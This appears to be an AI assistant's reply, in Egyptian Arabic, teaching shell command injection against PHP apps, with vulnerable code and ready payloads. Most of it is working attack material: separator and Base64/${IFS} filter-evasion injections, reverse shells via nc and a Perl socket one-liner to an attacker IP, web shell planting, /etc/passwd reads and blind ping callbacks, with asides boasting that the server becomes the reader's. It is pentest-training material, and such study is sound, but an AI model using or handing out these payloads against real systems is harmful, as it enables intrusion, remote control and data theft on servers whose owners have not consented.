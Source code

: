 تمام، زي ما فهمت إنك عايز شرح لنفس القسم مرة تانية "تقنيات حقن أوامر الـ Shell" (Shell Command Injection Techniques)، بس هحاول أعمل الشرح مختلف شوية في الأمثلة والتفاصيل عشان تستفيد أكتر، مع الحفاظ على نفس الطريقة: شرح عملي مع أكواد وأوامر، خلاصة Pentest بالعامية المصرية بعد كل جزء، وسيناريوهات استغلال في الآخر.

---

### **1. حقن الأوامر باستخدام الفواصل (Command Injection with Separators)**
#### **شرح عملي:**
الحقن هنا بيعتمد على إنك تضيف أوامرك للأمر الأصلي باستخدام فواصل زي `;` (للتنفيذ المتتابع)، `&&` (لو الأول نجح)، أو `|` (لتوجيه الخرج). التطبيق لو مش بيفحص المدخلات، بينفذ كل حاجة تبعتها.

- **مثال:** لو فيه أداة بحث بتستخدم `grep` على السيرفر، ممكن تضيف أمرك.

#### **كود عملي (PHP مع حقن بفواصل):**
- كود ضعيف:
```php
<?php
$search = $_GET['query'];
$output = shell_exec("grep '$search' /var/www/data.txt");
echo "<pre>$output</pre>";
?>
```
- ابعت طلب:
```
http://<IP>/search.php?query=test; whoami
```
- السيرفر هينفذ `grep 'test; whoami' /var/www/data.txt`، وبعدها `whoami` لوحده، ويرجعلك اسم المستخدم.

#### **أمر عملي (تجربة يدوية):**
```bash
curl "http://<IP>/search.php?query=hello||id"
```
- لو رجعلك `uid=33(www-data)`، يبقى الفاصل `||` نفع (ينفذ الأمر التاني لو الأول فشل).

#### **خلاصة Pentest بالعامية:**
"جرب حط فواصل زي `;` أو `||` بعد المدخل العادي، واضيف حاجة زي `id` أو `whoami`. لو السيرفر نفذها، يبقى بيسمع الكلام وتقدر تخليه يغنيلك!"

---

### **2. حقن الأوامر باستخدام التشفير أو التضليل (Obfuscation Techniques)**
#### **شرح عملي:**
لو التطبيق فيه فلتر بسيط (زي منع كلمات زي `whoami` أو `;`)، بتقدر تتجنبه بتشفير الأوامر (زي Base64) أو استخدام متغيرات Shell زي `${}` أو تضليل بالمسافات.

- **مثال:** تشفير الأمر عشان يعدي الفلتر ويتفك على السيرفر.

#### **كود عملي (PHP مع فلتر):**
- كود بيمنع `whoami`:
```php
<?php
$input = $_GET['input'];
if (strpos($input, "whoami") === false) {
    $output = shell_exec("echo " . $input);
    echo "<pre>$output</pre>";
}
?>
```
- جرب تجاوز:
```
http://<IP>/test.php?input=$(echo d2hvYW1p | base64 -d)
```
- `d2hvYW1p` هو `whoami` مشفر، السيرفر هيفك التشفير وينفذه.

#### **أمر عملي (تضليل بالمسافات):**
- لو الفلتر بيمنع `;`， جرب:
```bash
curl "http://<IP>/test.php?input=test${IFS}id"
```
- `${IFS}` بديل المسافة في Shell، ينفذ `test id`.

#### **خلاصة Pentest بالعامية:**
"لو السيرفر بيفلتر حاجات، شفر الأوامر بـ Base64 أو استخدم `${IFS}` بدل المسافة. جرب كمان حاجات زي `$(id)` وشوف لو بيعدي الفلتر ويجيبلك اللي عايزه!"

---

### **3. حقن أوامر لفتح Shell كامل (Full Shell Access)**
#### **شرح عملي:**
التقنية دي بتركز على استخدام الحقن عشان تفتح Reverse Shell أو تكتب ملف Web Shell، بدل مجرد تنفيذ أوامر بسيطة. الهدف إنك تتحكم في السيرفر بشكل كامل عن بُعد.

#### **كود عملي (Reverse Shell):**
- لو فيه ثغرة زي المثال الأول:
```
http://<IP>/search.php?query=test; nc -e /bin/bash <YOUR_IP> 4444
```
- استمع على جهازك:
```bash
nc -lvnp 4444
```
- لو اتفتحت شاشة Shell، يبقى بقيت الBoss.

#### **كود عملي (كتابة Web Shell):**
- ابعت:
```
http://<IP>/search.php?query=test; echo '<?php system($_GET[cmd]); ?>' > /var/www/html/shell.php
```
- افتح:
```
http://<IP>/shell.php?cmd=whoami
```

#### **خلاصة Pentest بالعامية:**
"لو عايز تتحكم كامل، جرب تفتح Reverse Shell بـ `nc` أو اكتب Web Shell بـ `echo`. لو نجحت، يبقى السيرفر بقى بتاعك وتقدر تعمل فيه اللي نفسك فيه!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Basic Separators:**
   - نفذ أوامر بسيطة:
     ```bash
     curl "http://<IP>/search.php?query=test; cat /etc/passwd"
     ```
     لو رجعلك الملف، يبقى نجحت.

2. **Obfuscation:**
   - Base64:
     ```bash
     curl "http://<IP>/search.php?query=test; echo Y2F0IC9ldGMvcGFzc3dk | base64 -d | bash"
     ```
     (يعني `cat /etc/passwd`).
   - Variable Substitution:
     ```bash
     curl "http://<IP>/search.php?query=test${IFS}$(whoami)"
     ```

3. **Full Shell Access:**
   - **Reverse Shell:**
     ```bash
     curl "http://<IP>/search.php?query=test; perl -e 'use Socket;\$i=\"<YOUR_IP>\";\$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));connect(S,sockaddr_in(\$p,inet_aton(\$i)));open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");'"
     ```
     استمع: `nc -lvnp 4444`.
   - **Web Shell:**
     ```bash
     curl "http://<IP>/search.php?query=test; printf '<?php system(\$_GET[cmd]); ?>' > /var/www/html/shell.php"
     ```
     استخدم: `http://<IP>/shell.php?cmd=id`.

4. **مشترك:**
   - **Blind Injection:** لو ما بيرجعش رد:
     ```bash
     curl "http://<IP>/search.php?query=test; ping -c 10 <YOUR_IP>"
     ```
     شوف الـ ping على جهازك.
   - **File Creation:** اكتب ملف:
     ```bash
     curl "http://<IP>/search.php?query=test; echo 123 > /tmp/test.txt"
     ```
     جرب تسحبه بعدين.
   - **Automated Testing:** استخدم wfuzz:
     ```bash
     wfuzz -c -z file,/usr/share/wordlists/payloads.txt "http://<IP>/search.php?query=testFUZZ"
     ```

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، أو عايز حاجة مختلفة، قوللي وأنا أفصلك!